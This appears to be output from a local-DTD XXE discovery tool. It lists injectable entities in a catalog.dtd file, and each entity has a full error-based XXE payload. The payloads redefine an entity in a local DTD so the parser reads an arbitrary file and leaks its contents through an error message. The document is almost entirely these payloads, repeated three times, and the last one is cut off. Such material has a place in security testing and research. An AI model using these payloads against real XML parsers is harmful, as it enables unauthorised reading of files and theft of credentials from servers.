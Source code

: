 **Injectable entity:** `local.public.attribs`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd">

    <!ENTITY % local.public.attribs '>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd`

**Injectable entity:** `local.system.attribs`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd">

    <!ENTITY % local.system.attribs '>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd`

**Injectable entity:** `local.uri.attribs`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd">

    <!ENTITY % local.uri.attribs '>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa "bb"'>

```